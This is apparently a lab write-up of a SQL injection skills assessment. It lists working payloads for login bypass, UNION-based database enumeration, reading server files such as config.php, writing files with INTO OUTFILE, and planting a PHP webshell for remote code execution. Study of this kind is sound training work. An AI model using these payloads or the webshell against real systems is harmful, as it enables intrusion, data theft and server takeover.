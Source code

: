 ## Skills Assessment

* For authentication bypass, we can refer to the payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass); ```admin' or 1=1#``` as payload works and we are able to login

* We get access to a dashboard - it seems to be fetching a table from the backend. We can try UNION SQLi attacks here

* Furthermore, out of the 4 visible columns, the search field seems to be working for the 'Month' (second) column

* The payload ```j' UNION SELECT 1,database(),3,4#``` does not work; trying with 5 columns works - ```j' UNION SELECT 1,database(),3,4,5#``` - and we get database name 'ilfreight'

* To get name of all tables, payload - ```j' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES#``` - we need to check which tables are of importance

* We have 'ilfreight' DB with tables 'users' and 'payment'; and 'backup' DB contains 'admin_bk' table

* We can use the following payload to get columns for each table - ```j' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='users'#```, for the 'users' table for example

* Also, the payload ```j' UNION SELECT 1,user(),3,4,5#``` shows that we are user ```root@localhost```; payload ```j' UNION SELECT 1,super_priv,3,4,5 FROM mysql.user#``` confirms that we have the required privileges to write files

* Payload to confirm if 'secure_file_priv' is set or not - ```j' UNION SELECT 1,variable_name,variable_value,4,5 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"#``` - value is not set

* Now, we are unable to write a file to the webroot - ```j' UNION SELECT 1,'check',3,4,5 into OUTFILE '/var/www/html/check.txt'#``` - this gives error

* But, we are able to write file to ```/tmp``` - ```j' UNION SELECT 1,'check',3,4,5 into OUTFILE '/tmp/check.txt'#```; we are also able to read the same file using ```j' UNION SELECT 1, LOAD_FILE('/tmp/check.txt'),3,4,5#```

* We can also view the page source using - ```j' UNION SELECT 1, LOAD_FILE('/var/www/html/index.php'),3,4,5#```; similarly for ```config.php``` and ```/dashboard/dashboard.php```

* Also, we are unable to write to webroot, but we can write to the '/dashboard' folder - ```j' UNION SELECT 1,'check',3,4,5 into OUTFILE '/var/www/html/dashboard/check.txt'#```. Confirm this using ```j' UNION SELECT 1, LOAD_FILE('/var/www/html/dashboard/check.txt'),3,4,5#```

* Write webshell to the same folder - ```j' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"","","" into OUTFILE '/var/www/html/dashboard/webshell.php'#```

* We now have RCE by visiting the URL at '/dashboard/webshell.php?0=id'
